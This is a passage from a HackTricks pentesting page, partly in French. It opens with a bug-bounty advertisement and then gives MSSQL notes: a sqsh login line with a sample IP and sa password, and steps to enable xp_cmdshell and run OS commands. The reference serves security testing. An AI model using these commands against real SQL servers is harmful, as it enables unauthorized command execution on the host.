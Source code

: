 <figure><img src="../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

**HackenProof est la plateforme des primes pour les bugs de cryptographie.**

**Obtenez des récompenses sans délai**\
Les primes HackenProof sont lancées uniquement lorsque leurs clients déposent le budget de récompense. Vous recevrez la récompense après la vérification du bug.

**Acquérez de l'expérience en pentesting web3**\
Les protocoles blockchain et les contrats intelligents sont le nouvel Internet ! Maîtrisez la sécurité web3 dès ses débuts.

**Devenez la légende du hacker web3**\
Gagnez des points de réputation avec chaque bug vérifié et conquérez le sommet du classement hebdomadaire.

[**Inscrivez-vous sur HackenProof**](https://hackenproof.com/register) et commencez à gagner grâce à vos hacks !

{% embed url="https://hackenproof.com/register" %}

## Commandes automatiques HackTricks
```
Protocol_Name: MSSQL    #Protocol Abbreviation if there is one.
Port_Number:  1433     #Comma separated if there is more than one.
Protocol_Description: Microsoft SQL Server         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for MSSQL
Note: |
Microsoft SQL Server is a relational database management system developed by Microsoft. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications—which may run either on the same computer or on another computer across a network (including the Internet).

#sqsh -S 10.10.10.59 -U sa -P GWE3V65#6KFH93@4GWTG2G

###the goal is to get xp_cmdshell working###
1. try and see if it works
xp_cmdshell `whoami`
go

2. try to turn component back on
EXEC SP_CONFIGURE 'xp_cmdshell' , 1
reconfigure
go
xp_cmdshell `whoami`
go

3. 'advanced' turn it back on
EXEC SP_CONFIGURE 'show advanced options', 1
reconfigure
go
```